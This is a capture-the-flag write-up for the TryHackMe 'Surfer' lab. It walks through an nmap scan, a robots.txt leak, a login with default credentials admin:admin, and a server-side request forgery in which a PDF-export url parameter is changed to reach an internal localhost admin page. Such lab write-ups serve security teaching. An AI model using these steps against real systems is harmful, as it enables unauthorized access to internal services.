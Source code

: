 # Surfer from tryhackme

You could do this here https://tryhackme.com/room/surfer

Surfer is a medium rated box which helps us to learn about ssrf or Server-Side Request Forgery

## What the hack is SSRF
Dont be afraid of these terms, I will break it out for you
There will be some internal services running locally that we cannot access like mysql etc...
It is only accessible by localhost

So putting the puzzle pieces together, If we somehow access the loaclhost, eventually we could gain access to those services
Forging the request made by server to go to that internal website.. we could get in

# Writeup
## nmap scan
```
# Nmap 7.92 scan initiated Wed Oct 19 05:21:43 2022 as: nmap -sC -sV -sT -A -oA nmap/surfer 10.10.218.97
Nmap scan report for 10.10.218.97
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a2:46:04:af:7e:ec:d1:d7:bf:83:cd:99:19:8d:46:d1 (RSA)
|   256 65:fe:6f:d3:8b:12:31:57:b3:44:8d:92:b7:e2:61:35 (ECDSA)
|_  256 65:ae:13:88:0b:1e:28:ed:4c:87:fa:9c:28:ba:b6:e8 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-robots.txt: 1 disallowed entry 
|_/backup/chat.txt
| http-title: 24X7 System+
|_Requested resource was /login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=10/19%OT=22%CT=1%CU=35715%PV=Y%DS=5%DC=T%G=Y%TM=634FEC
OS:1B%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)SE
OS:Q(SP=107%GCD=1%ISR=10B%TI=Z%CI=Z%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%
OS:O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=F4B3%W2
OS:=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M54DNNS
OS:NW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=
OS:N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%
OS:CD=S)

Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kerne
```

Right, we can see that the hidden entry in robots.txt. {robots.txt tells the crawlers like google to not to display that}
it is /backup/chat.txt

Going there we can see that 
```

Admin: I have finished setting up the new export2pdf tool.
Kate: Thanks, we will require daily system reports in pdf format.
Admin: Yes, I am updated about that.
Kate: Have you finished adding the internal server.
Admin: Yes, it should be serving flag from now.
Kate: Also Don't forget to change the creds, plz stop using your username as password.
Kate: Hello.. ?
```

So let's login with creds admin:admin, as said in chat.txt

After logging in we can see in the right side in recent activity that
```
Internal pages hosted at /internal/admin.php. It contains the system flag.
```
and there is a button for
Export to PDF

Clicking that we can see the server information
```
 Hosting Server Information
Operating System:
Linux
Server IP:
172.17.0.2
Server Hostname:
01a5b58d4be9
Server Protocol:
HTTP/1.1
Server Administrator:
webmaster@localhost
Server Web Port:
80
PHP Version:
7.2.34
CGI Version:
CGI/1.1
System Uptime:
12:53:00 up 9 min, 0 users, load average: 0.00, 0.08, 0.09
```

So intercepting the request in burp suite
we can see that it is making request to http%3A%2F%2F127.0.0.1%2Fserver-info.php { url encoded }
url=http://10.10.96.140/export2pdf.php

let's change url parameter to 

http%3A%2F%2F127.0.0.1%2F/internal/admin.php

and forwarding this we get..
```
Report generated for http://127.0.0.1/internal/admin.php
flag{REDACTED}
```



















































